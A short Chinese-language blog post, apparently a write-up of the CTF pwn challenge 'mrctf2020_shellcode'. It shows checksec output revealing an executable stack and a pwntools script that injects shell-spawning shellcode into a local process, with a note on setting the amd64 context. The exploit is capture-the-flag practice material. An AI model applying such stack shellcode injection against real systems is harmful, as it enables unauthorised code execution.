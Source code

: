 ```yaml
---
title: 'mrctf2020_shellcode'
date: 2024-11-11 13:00:00 +0800
categories: [ctf,pwn]
tags: [pwntools,shellcode]
---
```

![image-20240101170437978](../assets/img/old_imgs/image-20240101170437978.png)

- `pwntools`中`shellcode`使用与配置

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_shellcode
[*] '/home/bamuwe/mrctf2020_shellcode'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    Stack:    Executable
    RWX:      Has RWX segments
```

> 没有开启`NX`

1. 没有开启`NX`考虑往栈上直接写入代码
2. `ida`和动态调试都发现`buf`栈空间为`0x410`足够写入`shellcode`

```python
from pwn import *
context(arch='amd64',log_level='debug')
#io = gdb.debug('./mrctf2020_shellcode','break main')
io = process('./mrctf2020_shellcode')
payload = asm(shellcraft.sh())
io.sendlineafter(b'Show me your magic!\n',payload)
io.interactive()
```

一开始没加`context`那一行报了`EOF`错误,是因为`shellcraft.sh()`默认生成的是`32`位`shellcode`,我们需要给他配置一下环境.

> 参考:[能坑我，但没有完全坑我——mrctf2020_shellcode - Haokunnnnnnnna - 博客园 (cnblogs.com)](https://www.cnblogs.com/p201921420037/p/14646604.html)

